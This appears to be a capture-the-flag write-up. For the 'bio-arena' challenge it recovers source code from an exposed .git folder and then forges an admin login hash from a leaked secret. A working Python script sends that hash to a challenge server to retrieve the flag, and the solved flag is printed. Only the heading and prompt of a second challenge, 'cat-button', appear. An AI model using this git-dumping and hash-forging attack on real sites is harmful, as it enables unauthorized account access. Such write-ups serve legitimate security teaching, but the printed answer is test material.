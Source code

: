 ## bio-arena {#bio-arena}
{% highlight bash %}
Site #1 for competitive biology problems.

Format flag: CTF{sha256}
{% endhighlight %}

The main page contains a comment about '/note.txt', which contains a reference to git. The webserver root contains a '.git' folder which can be used to recover the website's source code. A quick source code review reveals that we can sign in as 'mihai' by using 'mail-sign-in.php':

{% highlight python %}
# robots.txt contains 2 entries, /note.txt and /.git
# use a tool to copy repo - example: https://github.com/arthaud/git-dumper

import hashlib
import requests

base_url = "http://35.234.98.182:31050/"

# Compute hash
h = hashlib.md5()
secret = "4ba845c0989af7441d1b3cae7763abfae4782721a6a464ec6da7cb345dfbc32556d3c354371953820dd43e846414ab66" # taken from source code
username = "mihai" # admin's name, taken from source code
h.update((secret + username).encode())
hash = h.hexdigest()
print(f"Hash: {hash}")

# start session, log in
sess = requests.Session()

r = sess.get(base_url + f"mail-sign-in.php?username=mihai&hash={hash}")

# get flag
r = sess.get(base_url + "admin.php")
flag = "CTF{" + r.text.split("CTF{")[1].split("}")[0] + "}"
print(flag)
{% endhighlight %}

**Flag:** CTF{d44e2ccf0c3a7ddcffbcc185bc996f782210d2b1e1c047d0f5c866768b8b7b46}

## cat-button {#cat-button}
{% highlight bash %}
Are you an admin?

Flag format: CTF{sha265}
{% endhighlight %}
